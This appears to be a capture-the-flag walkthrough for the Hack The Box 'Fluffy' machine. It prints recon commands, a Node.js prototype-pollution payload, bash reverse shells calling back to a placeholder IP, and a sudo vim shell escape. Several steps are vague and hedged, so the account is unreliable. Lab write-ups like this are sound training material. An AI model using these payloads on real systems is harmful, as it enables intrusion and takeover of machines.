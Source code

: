 This markdown file provides a comprehensive step-by-step guide for exploiting the "Fluffy" machine on Hack The Box (HTB). It covers initial reconnaissance, web enumeration, WebSocket exploitation using prototype pollution, privilege escalation, and obtaining root access. It also includes commands, tools used, and payloads required for the process.

---

## 1. Preparation & Recon

### 1.1 Connect to HTB VPN
```bash
sudo openvpn --config /path/to/htb.ovpn
```

### 1.2 Set the Host
Add the IP and hostname (replace IP as assigned):
```bash
echo "10.10.10.129 fluffy.htb" | sudo tee -a /etc/hosts
```

### 1.3 Nmap Full TCP Scan
```bash
nmap -p- -sC -sV -oN nmap-initial.txt fluffy.htb
```
You’ll typically see:
- 22/tcp (SSH)
- 80/tcp (HTTP)
- 8080/tcp (HTTP, web app)

---

## 2. Web Enumeration

### 2.1 Browse Main Website
Visit:
```
http://fluffy.htb/
```
Find info, then enumerate further.

### 2.2 Directory Discovery
Enumerate paths:
```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://fluffy.htb/FUZZ -mc 200
```

### 2.3 Subdomains (as needed)
Not strictly required per reference walkthrough, focus on found services.

---

## 3. Chat Application & Prototype Pollution (RCE)

### 3.1 Visit Chat App on Port 8080
```
http://fluffy.htb:8080/
```
Notice: WebSocket chat interface—username and messages sent.

### 3.2 WebSocket Connection
Install wscat:
```bash
npm install -g wscat
```
Connect:
```bash
wscat -c ws://fluffy.htb:8080/
```

### 3.3 Perform Prototype Pollution
Send the following as your username via WebSocket (payloads may be sent as JSON):
```json
{
  "username": "__proto__",
  "message": {"polluted": "yes"}
}
```
This exploits Node.js prototype pollution on the backend.

### 3.4 Achieve Code Execution (Reverse Shell)
Start a netcat listener:
```bash
nc -lvnp 4444
```
Craft/Send Payload to Execute Reverse Shell:
WebSocket messages may allow JavaScript. Use a command injection or prototype pollution to run:
```javascript
require('child_process').exec('bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1')
```
Adjust the payload as needed according to how the app handles messages/user input.

The polluting step should allow you to inject JS that runs the reverse shell.

---

## 4. User Shell & Enumeration
On catching the shell (should be user fluffy or node):
```bash
whoami
hostname
id
ls -la
cat ~/user.txt
```

---

## 5. Post-Exploitation & Privilege Escalation

### 5.1 Sudo Rights Enumeration
```bash
sudo -l
```
Find if you can run any scripts as root/no password.

### 5.2 Exploit Sudo Config
If allowed to run an editor (like nano or vim):
```bash
sudo vim -c ':!bash'
```
Or if there are allowed scripts, and they're writable:
```bash
echo 'bash -i >& /dev/tcp/<YOUR_IP>/5555 0>&1' > /tmp/root.sh
chmod +x /tmp/root.sh
```
Then edit the allowed script (if possible) or use existing privileges to execute your payload.

---

## 6. Get the Root Flag
Once you have a root shell:
```bash
cat /root/root.txt
```

---

## Bonus: Code and Tools Used
- **wscat** for WebSocket exploitation:
  ```bash
  npm install -g wscat
  ```
- **Node.js prototype pollution payload** for RCE.
- **Reverse shell (Bash):**
  ```bash
  bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1
  ```
